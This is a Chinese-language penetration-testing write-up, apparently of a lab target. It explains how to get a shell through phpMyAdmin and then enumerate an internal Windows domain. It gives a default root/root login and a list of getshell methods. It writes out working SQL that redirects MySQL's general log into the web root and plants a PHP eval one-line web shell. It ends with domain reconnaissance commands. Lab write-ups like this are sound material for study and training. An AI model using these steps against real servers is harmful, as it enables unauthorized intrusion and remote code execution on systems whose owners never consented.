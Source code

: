 ## 漏洞挖掘 && GetShell
/phpMyAdmin/ root,root 默认账密登录

phpMyAdmin后台getshell:
1、select into outfile直接写入
2、开启全局日志getshell
3、使用慢查询日志getsehll
4、使用错误日志getshell
5、利用phpmyadmin4.8.x本地文件包含漏洞getshell


查看mysql是否有文件读写权限，sql注入查询secure_file_priv权限
```sql
show VARIABLES like '%secure%'
```
secure_file_priv = NULL 没有导入权限
方法1 ❌

尝试方法2
```sql
SHOW GLOBAL VARIABLES LIKE '%general%'
```

OFF但可以开启 日志文件路径可以更改 改到网站目录下
SET GLOBAL general_log='on'
SET GLOBAL general_log_file='C:/phpStudy/www/233.php'

写入一句话木马到日志
SELECT '<?php eval($_POST["cmd"]);?>'

获得Administrator权限

# 内网渗透

## 信息收集

ipconfig # 查看本机ip,所在域
=> 内网段 192.168.52.0/24

route print # 打印路由信息

arp -a # 查看arp缓存
=> 192.168.52.138

net user

net config workstation # 查看工作组信息


net user /domain
=> owa.god.org

net group /domain

net localgroup administrators
=> 域管理员: Administrators
